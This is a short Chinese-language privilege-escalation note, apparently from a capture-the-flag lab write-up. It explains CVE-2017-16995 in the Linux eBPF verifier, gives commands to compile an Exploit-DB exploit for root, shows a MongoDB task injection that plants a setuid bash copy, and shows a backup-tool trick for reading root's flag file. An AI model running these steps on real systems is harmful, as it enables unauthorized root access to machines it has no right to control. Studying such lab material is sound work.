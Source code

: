 漏洞编号：CVE-2017-16995

漏洞详情：
该漏洞由Google project zero发现。该漏洞存在于带有 eBPF bpf(2)系统（CONFIG_BPF_SYSCALL）编译支持的Linux内核中，是一个内存任意读写漏洞。该漏洞是由eBPF验证模块的计算错误产生的。普通用户可以构造特殊的BPF来触发该漏洞，此外恶意攻击者也可以使用该漏洞来进行本地提权操作。

locate 45010
cp /usr/share/exploitdb/exploits/linux/local/45010.c .
gcc 45010.c -o cve-2017-16995

上传执行成功！获得root权限！！


拓展小知识：

mongo -p -u mark scheduler
db.adminCommand( { "hostInfo" : 1 } )
db.version()

show dbs
show collections
db.tasks
db.tasks.insert({"cmd":"cp /bin/bash /tmp/bash;chmod +xs /tmp/bash;"})
exit;
./bash -p


/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /ro*t/ro*t.txt
echo "编码信息放入" > dayu-root
base64 -d dayu-root > root-backup.zip
unzip root-backup.zip
cat root/root.txt







































